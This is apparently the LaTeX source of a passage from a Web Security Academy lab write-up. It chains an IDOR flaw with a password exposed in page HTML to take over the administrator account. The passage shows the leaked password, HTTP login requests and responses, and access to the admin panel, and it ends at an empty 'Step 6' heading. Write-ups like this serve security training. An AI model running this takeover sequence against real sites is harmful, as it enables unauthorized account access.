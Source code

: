 \documentclass[11pt,letterpaper]{article}
\newcommand{\password}[1]{\texttt{\color{passwordcolor}#1}}
\begin{document}
\begin{warningbox}
We accessed the administrator's account page using our low-privilege session, and the response contains the administrator's plaintext password: \password{xK7mN9pQrS2t}

This combines both vulnerabilities:
\begin{enumerate}
  \item IDOR: We accessed another user's account page
  \item Password Disclosure: Their password is visible in the HTML
\end{enumerate}
\end{warningbox}

\subsection{Step 4: Extract Administrator Password}

From the response HTML, extract the password from:
\begin{verbatim}[language=html]
<input type="password" name="password" value="xK7mN9pQrS2t">
\end{verbatim}

\textbf{Administrator Password:} \password{xK7mN9pQrS2t}

\subsection{Step 5: Authenticate as Administrator}

\begin{verbatim}[language=http,caption={Step 5: Login as administrator}]
-- Logout first or use new session --
POST /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=NEWTOKEN456&username=administrator&password=xK7mN9pQrS2t

-- Response --
HTTP/1.1 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=adminSession789

-- Follow redirect --
GET /my-account?id=administrator HTTP/1.1
Cookie: session=adminSession789

-- Now authenticated as administrator --
HTTP/1.1 200 OK

<a href="/admin">Admin panel</a>
\end{verbatim}

\subsection{Step 6: Execute Privileged Action}
\end{document}
